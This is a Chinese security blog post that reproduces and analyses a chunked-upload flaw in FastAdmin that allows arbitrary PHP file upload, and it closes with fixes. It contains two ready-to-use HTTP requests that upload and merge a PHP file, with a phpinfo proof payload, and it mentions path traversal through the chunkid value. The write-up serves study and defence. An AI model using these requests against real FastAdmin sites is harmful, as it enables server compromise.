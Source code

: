 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gAerDNnDSl6864oyvDy4nA)

**上方蓝色字体关注我们，一起学安全！**

**作者：****Whippet****@Timeline Sec  
**

**本文字数：1624**

**阅读时长：5～6min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

_FastAdmin_ 是一款基于 ThinkPHP 5 + Bootstrap 的极速后台开发框架。致力于服务开发者, 快速搭建自己属于自己的后台。  

**0x02 漏洞概述**  

  

2021 年 3 月 28 日，360 漏洞云漏洞研究员发现，FastAdmin 框架存在有条件 RCE 漏洞，由于 FastAdmin 的前台文件上传功能中提供了分片传输功能, 但在合并分片文件时因对文件路径的拼接处理不当导致可上传任意文件。

**0x03 影响版本**  

  

FastAdmin < V1.2.0.20210401_beta  

且开启分片传输功能（默认关闭）

**0x04 环境搭建**  

  

在官网上下载 fastadmin，利用 phpstudy 搭建环境

```
https://package.fastadmin.net/full/1.2.0.20210125_full.zip
```

先开启分片上传功能，文件位置如下图  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSreHIP4ghOFe6MQYt7Rcfq70Pe5Ty9icIH4aYSKR2R6bgPicSsbdiaSib9w/640?wx_fmt=png)

访问 / public/install.php 进行安装，填写数据无脑下一步即可  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADS5L80y8BxhNcmKI2GQoGEbleLpfJNiaVsFDvRhZ2l6zEIXDAHln2CJNw/640?wx_fmt=png)

**0x05 漏洞复现**  

  

漏洞需要一个低权限的账号  

所以我们需要在前台注册一个普通用户  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSjQdBN3btycM0lH3icEJkDjQmGqN6rhnhcicFSx8Sr9Z9dqmB5O4ApGtg/640?wx_fmt=png)

登陆后在个人资料头像处抓包并上传 dog.jpg

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSVWDtRqfWohjvk2p8pWbyBqtgH1dVJZ4gF8Y4y2hQXv3DMC6uPSfFzg/640?wx_fmt=png)

更改上传数据包（需要注意图中几处红框的内容）  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSMxYiaFXMiaz9WmziarMDZEYODZpgwBDaEBOtDcADcFjl9os6cMRcJdvHg/640?wx_fmt=png)  

```
POST /index/ajax/upload HTTP/1.1
Host: test.test
Content-Length: 418
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryurpjX18wIurjSyEp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=rn1k8an9su59qb7ghosafer4vg; think_var=zh-cn; uid=2; token=aad3aa1e-1c65-4ee4-989a-bb3a82a4dd4a
Connection: close

------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; 
Content-Type: application/octet-stream

<?php phpinfo(); ?>
------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; ;

test.php
------WebKitFormBoundaryurpjX18wIurjSyEp
Content-Disposition: form-data; ;

------WebKitFormBoundaryurpjX18wIurjSyEp--
```

上传成功之后，会在网站路径  

C:\phpstudy_pro\WWW\fastadmin\runtime\chunks 下生成一个 test.php-0.part 文件

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSXrGNCMDAzcibDhL3PhtXEuhC9y7j21POl6JHIa4QJvezK8SmXXAVLxg/640?wx_fmt=png)

发送数据包（需要注意图中几处红框的内容）

返回包显示 200 则代表合并成功  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSIPYAP0v3PiaibgvkibQ8UmUAkym2r0MaMMLX0IqzqgXQSsXiaFMrC5B37Q/640?wx_fmt=png)  

```
POST /index/ajax/upload HTTP/1.1
Host: tets.test
Content-Length: 42
Accept: application/json
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=mm4ejed8h7hubqq1stmogrut20; think_var=zh-cn; uid=2; token=f5a57bef-2ad2-496a-a4bc-66974bcc4a08
Connection: close

chunkid=test.php&chunkcount=1&action=merge
```

发包后访问  

/fastadmin/runtime/chunks/test.php

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSG7Xian8WjULziaIS28A79IclLYYdmLytQ8OvhiaU4kpkXbO5Z812YHOtg/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSgnh4ctn5mibWs6CKtGBn8sxYEaZviaVyBhZBlVZNUjjo8jOAgyQ3GvUw/640?wx_fmt=png)  

（漏洞利用存在很大的局限性，首先是需要开启支持分片传输，我在调试的过程中发现，在指定 host 解析，设定网站的根目录为 /fastadmin/public 之后就无法访问  /fastadmin/runtime/chunks 下的文件，虽说如此，但是可以通过设定 chunkid 的值为 ../xxx.php 就可以实现跨目录的上传）

**0x06 漏洞分析**  

  

根据漏洞描述需要开启支持分片上传，所以我们修改  

application/extra/upload.php 中 chunking 为 true  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSAE3ibb0hdJZ61euYx20mZVjnMv6Wz5Hc5j02fiauHVwvCzhbDsSOZtqA/640?wx_fmt=png)

同时最新版本已经修复存在的漏洞，修复位置为

application/common/library/Upload.php  

复现漏洞时，应注释这个部分

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSNYhibaniblg26E5Ac3LiaRwYkgKmia1NiaGe7Wtia4j0iapqljB9f0tnxpDfA/640?wx_fmt=png)

根据上传时的路由信息  

/index.php/index/ajax/upload  

定位至代码位置  

application/index/controller/Ajax.php

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSDZHL5L3TsUULRFmbeedicVeMZ74SoNwkI4Qr15RphLpwtUEc9xJ18KA/640?wx_fmt=png)

漏洞的触发共分为两个过程，上传分片与合并分片

首先关注上传分片的过程 传入参数 chunckid 才会到上传分片的位置

\app\api\controller\Common::upload  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSaVeqQJqDkQH7lfsKl8DWwyouYPiboibmD4Kib2ONT2LqMknLicCFB3tG5Q/640?wx_fmt=png)

\app\common\library\Upload::chunk  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSSHhTD4ZYwq2GwqCGE61KPw8Sq8hGC5ibMDPuKHOQyFSo5KXPmjA15VQ/640?wx_fmt=png)

在 chunk 方法中，首先对 Content-Type 进行了校验，必须为 application/octet-stream 将传入的参数 chunckid  与  chunckindex 通过 - 连接，最后拼接 .part 最后保存到 /runtime/chunks/  

当我们传递的 $chunkid 为 test.php , $chunckindex 为 0 时 (参数选择为 0，还有别的原因，下表)，最后拼接出的分片文件名为 test.php-0.part

然后是合并分片文件的操作，需要传入参数 action=merge 才会到合并分片文件的函数  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSbfAccDnPbVyx1HoEx8QgE9V1dElxicdysvC7JRsywBzK3nkS1PA9Gsw/640?wx_fmt=png)

\app\common\library\Upload::merge

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh5E9kDWAEbeEnDAocNfADSfjgLuc3hGyb2uFnEvEJ6ldzp4KuUGE3srUlRHSialh1MOrS2XRhxKkg/640?wx_fmt=png)

在 merge 方法中会将 $chunkid 的值指定为最后保存的文件名，然后回根据传入的参数 $chunkcount 遍历查找是否分片文件上传完成，我们仅上传了一个分片文件，所以第一个分片文件应该设定为 0，此处 chunkcount 的值应为 1  

之后就将分片传输的文件写入指定的文件中，最后返回文件信息，即使最后报错提示是不允许的上传类型，但是文件已经保存到 /runtime/chunks/  路径下

在上传对文件名进行校验的情况下，利用分片传输的中最后重命名文件名的特点，绕过对文件名的校验，实现了任意文件上传

**0x07 修复方式**  

  

1、关闭分片传输  

修改 application/extra/upload.php 中 chunking 为 false

2、升级 FastAdmin 版本，其中对 chunkid 做正则判断

```
参考链接：
```

https://xz.aliyun.com/t/9395  

https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行